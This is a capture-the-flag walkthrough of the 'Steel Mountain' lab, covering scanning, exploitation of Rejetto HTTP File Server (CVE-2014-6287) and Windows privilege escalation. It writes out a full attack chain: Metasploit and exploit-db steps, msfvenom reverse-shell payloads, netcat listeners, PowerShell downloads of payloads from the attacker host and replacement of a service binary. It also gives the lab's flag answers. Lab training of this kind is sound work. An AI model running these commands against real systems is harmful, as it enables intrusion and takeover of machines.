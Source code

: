 # Steel Mountain

## Task 1 Introduction

#### **Who is the employee of the month?**

![](<../../.gitbook/assets/Screenshot from 2022-04-22 04-12-31.png>)

{% hint style="success" %}
`Bill Harper`
{% endhint %}

## Task 2 Initial Access

#### **What is the other port running a web server on?**

```bash
nmap 10.10.185.36
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 09-44-30.png>)

{% hint style="success" %}
`8080`
{% endhint %}

#### **What file server is running?**

```bash
sudo nmap -sV -p8080 10.10.185.36
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 09-48-26.png>)

{% hint style="success" %}
`Rejetto HTTP File Server`
{% endhint %}

#### **What is the CVE number to exploit this file server?**

```
searchsploit rejetto http file server
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 09-56-53.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-07 09-56-57.png>)

{% hint style="success" %}
`2014-6287`
{% endhint %}

#### **What is the user flag?**

```bash
msfconsole -q
msf5 > search rejetto
msf5 > use 1
msf5 > set RHOSTS 10.10.185.36
msf5 > set RPORT 8080
msf5 > set LHOST 10.9.101.193
msf5 > exploit
meterpreter > shell
C:\Users\bill\AppData>type C:\Users\bill\Desktop\user.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-22 04-23-25.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-07 10-08-57.png>)

{% hint style="success" %}
`b04763b6fcf51fcd7c13abc7db4fd365`
{% endhint %}

## Task 3 Privilege Escalation

```
meterpreter > upload /home/kali/enum/PowerUp.ps1
meterpreter > load powershell
meterpreter > powershell_shell
PS > . .\Powerup.ps1
PS > Invoke-AllChecks
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 10-24-02.png>)

#### Take close attention to the CanRestart option that is set to true. What is the service name?

```bash
Invoke-AllChecks | Where-Object {$_.'CanRestart' -eq 'True'}
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 10-29-15.png>)

{% hint style="success" %}
`AdvancedSystemCareService9`
{% endhint %}

#### The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

#### Use msfvenom to generate a reverse shell as an Windows executable. Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.101.193 LPORT=4445\
         -e x86/shikata_ga_nai -f exe -o ASCService.exe
nc -nvlp 4445
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 11-00-27.png>)

```
meterpreter > upload /home/kali/enum/ASCService.exe
meterpreter > shell
> sc stop AdvancedSystemCareService9
> copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\"
> sc start AdvancedSystemCareService9
```

#### **What is the root flag?**

```
> type C:\Users\Administrator\Desktop\root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 11-15-51.png>)

{% hint style="success" %}
`9af5f314f57607c00fd09803a587db80`
{% endhint %}

## Task 4 Access and Escalation Without Metasploit

#### To begin we shall be using the same CVE. However, this time let's use this [exploit.](https://www.exploit-db.com/exploits/39161)

#### To begin, you will need a netcat static binary on your web server.

```bash
cp /usr/share/windows-binaries/nc.exe /var/www/html 
```

```bash
nc -nvlp 4444
> type C:\Users\bill\Desktop\user.txt
```

#### You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!

```bash
searchsploit rejetto http file server
searchsploit -m 39161
vim 39161.py
# ip_addr = "10.9.101.193"
# local_port = "4444"
python3 39161.py 10.10.41.184 8080
python3 39161.py 10.10.41.184 8080
```

#### Congratulations, we're now onto the system. Now we can pull winPEAS to the system using powershell -c.

#### Once we run winPeas, we see that it points us towards unquoted paths. We can see that it provides us with the name of the service it is also running.

```bash
> powershell -c wget http://10.6.9.176/winPEASx86.exe -OutFile winPEAS.exe
> winPEAS.exe
```

![](<../../.gitbook/assets/Screenshot from 2020-09-07 12-18-56.png>)

#### What powershell -c command could we run to manually find out the service name?

![](<../../.gitbook/assets/Screenshot from 2022-04-22 05-11-30.png>)

{% hint style="success" %}
`powershell -c "Get-Service"`
{% endhint %}

#### Now let's escalate to Administrator with our new found knowledge.

#### Generate your payload using msfvenom and pull it to the system using powershell.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.101.193 LPORT=4445\
         -e x86/shikata_ga_nai -f exe -o ASCService.exe
nc -nvlp 4445
> type C:\Users\Administrator\Desktop\root.txt
```

#### Now we can move our payload to the unquoted directory winPEAS alerted us to and restart the service with two commands.

```
> powershell -c "wget http://10.9.101.193/ASCService.exe -OutFile ASCService.exe"
> sc stop AdvancedSystemCareService9
> copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\"
> sc start AdvancedSystemCareService9
```

## :link: Support Material

{% embed url="https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1" %}

{% embed url="https://www.exploit-db.com/exploits/39161" %}

{% embed url="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS" %}

